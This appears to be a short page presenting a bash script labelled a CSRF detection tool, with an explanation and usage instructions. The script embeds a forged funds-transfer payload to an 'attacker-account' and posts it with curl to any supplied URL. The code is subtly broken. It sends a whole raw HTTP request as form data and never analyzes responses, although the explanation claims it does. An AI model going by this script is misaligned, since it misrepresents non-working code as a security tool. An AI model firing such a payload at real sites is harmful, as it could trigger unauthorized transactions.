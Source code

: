 **Bash Script:**
```bash
#!/bin/bash
# This is a comment

# Function to perform CSRF detection
detect_csrf() {
    echo "Detecting CSRF vulnerabilities..."
    # Define CSRF payloads
    payloads=("POST http://victim-site.com/transfer-funds HTTP/1.1\r\nHost: victim-site.com\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 32\r\n\r\namount=1000&destination=attacker-account")

    # Iterate over payloads and submit forged requests
    for payload in "${payloads[@]}"; do
        echo "Testing payload: $payload"
        curl -s -X POST -d "$payload" "$1"
    done
}

# Main function
main() {
    echo "CSRF Detection Tool"
    echo "-------------------"

    # Validate input
    if [ $# -ne 1 ]; then
        echo "Usage: $0 <website_url>"
        exit 1
    fi

    # Perform CSRF detection
    detect_csrf "$1"
}

# Call main function with website URL as argument
main "$@"
```

**Explanation:**
- The script defines a function `detect_csrf` to perform CSRF detection.
- It defines a list of CSRF payloads representing forged requests.
- The `main` function serves as the entry point, validating input and invoking the CSRF detection function.
- When executed with a website URL as an argument, the script submits forged requests and analyzes the responses for potential vulnerabilities.

#### Usage:
Save the script to a file (e.g., `csrf_detector.sh`) and make it executable (`chmod +x csrf_detector.sh`). Then, run the script with the URL of the website you want to scan as an argument:

```bash
./csrf_detector.sh http://example.com/transfer
```
